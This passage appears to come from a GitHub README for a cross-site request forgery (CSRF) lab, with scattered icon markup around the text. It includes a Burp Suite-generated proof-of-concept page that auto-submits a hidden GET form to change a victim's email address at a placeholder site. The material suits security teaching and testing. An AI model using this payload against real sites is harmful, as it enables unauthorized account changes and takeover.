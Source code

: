     <path fill-rule="evenodd" d="M13.78 4.22a.75.75 0 010 1.06l-7.25 7.25a.75.75 0 01-1.06 0L2.22 9.28a.75.75 0 011.06-1.06L6 10.94l6.72-6.72a.75.75 0 011.06 0z"></path>
</svg>
    </clipboard-copy>
  </div></div>
<p dir="auto">Other HTML5 tags that can be used to automatically send a GET request are:</p>
<p>Screen Shoot is cross-site request forgery (csrf) attack lab</p>
<h3 dir="auto"><a id="user-content-form-get-request" class="anchor" aria-hidden="true" href="#form-get-request"><svg class="octicon octicon-link" viewBox="0 0 16 16" version="1.1" width="16" height="16" aria-hidden="true"><path fill-rule="evenodd" d="M7.775 3.275a.75.75 0 001.06 1.06l1.25-1.25a2 2 0 112.83 2.83l-2.5 2.5a2 2 0 01-2.83 0 .75.75 0 00-1.06 1.06 3.5 3.5 0 004.95 0l2.5-2.5a3.5 3.5 0 00-4.95-4.95l-1.25 1.25zm-4.69 9.64a2 2 0 010-2.83l2.5-2.5a2 2 0 012.83 0 .75.75 0 001.06-1.06 3.5 3.5 0 00-4.95 0l-2.5 2.5a3.5 3.5 0 004.95 4.95l1.25-1.25a.75.75 0 00-1.06-1.06l-1.25 1.25a2 2 0 01-2.83 0z"></path></svg></a>Form GET request</h3>
<div class="snippet-clipboard-content position-relative overflow-auto"><pre lang="markup"><code>&lt;html&gt;
  &lt;!-- CSRF PoC - generated by Burp Suite Professional --&gt;
  &lt;body&gt;
  &lt;script&gt;history.pushState('', '', '/')&lt;/script&gt;
    &lt;form method="GET" action="https://victim.net/email/change-email"&gt;
      &lt;input type="hidden" name="email" value="some@email.com" /&gt;
      &lt;input type="submit" value="Submit request" /&gt;
    &lt;/form&gt;
    &lt;script&gt;
      document.forms[0].submit();
    &lt;/script&gt;
  &lt;/body&gt;
&lt;/html&gt;
</code></pre><div class="zeroclipboard-container position-absolute right-0 top-0">
    <clipboard-copy aria-label="Copy" class="ClipboardButton btn js-clipboard-copy m-2 p-0 tooltipped-no-delay" data-copy-feedback="Copied!" data-tooltip-direction="w" value="<html>
  
  <body>
  <script>history.pushState('', '', '/')</script>
    <form method=&quot;GET&quot; action=&quot;https://victim.net/email/change-email&quot;>
      <input type=&quot;hidden&quot; name=&quot;email&quot; value=&quot;some@email.com&quot; />
      <input type=&quot;submit&quot; value=&quot;Submit request&quot; />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
" tabindex="0" role="button">
      <svg aria-hidden="true" height="16" viewBox="0 0 16 16" version="1.1" width="16" data-view-component="true" class="octicon octicon-copy js-clipboard-copy-icon m-2">
    <path fill-rule="evenodd" d="M0 6.75C0 5.784.784 5 1.75 5h1.5a.75.75 0 010 1.5h-1.5a.25.25 0 00-.25.25v7.5c0 .138.112.25.25.25h7.5a.25.25 0 00.25-.25v-1.5a.75.75 0 011.5 0v1.5A1.75 1.75 0 019.25 16h-7.5A1.75 1.75 0 010 14.25v-7.5z"></path><path fill-rule="evenodd" d="M5 1.75C5 .784 5.784 0 6.75 0h7.5C15.216 0 16 .784 16 1.75v7.5A1.75 1.75 0 0114.25 11h-7.5A1.75 1.75 0 015 9.25v-7.5zm1.75-.25a.25.25 0 00-.25.25v7.5c0 .138.112.25.25.25h7.5a.25.25 0 00.25-.25v-7.5a.25.25 0 00-.25-.25h-7.5z"></path>
</svg>
      <svg aria-hidden="true" height="16" viewBox="0 0 16 16" version="1.1" width="16" data-view-component="true" class="octicon octicon-check js-clipboard-check-icon color-text-success d-none m-2">
    <path fill-rule="evenodd" d="M13.78 4.22a.75.75 0 010 1.06l-7.25 7.25a.75.75 0 01-1.06 0L2.22 9.28a.75.75 0 011.06-1.06L6 10.94l6.72-6.72a.75.75 0 011.06 0z"></path>
</svg>
    </clipboard-copy>
  </div></div>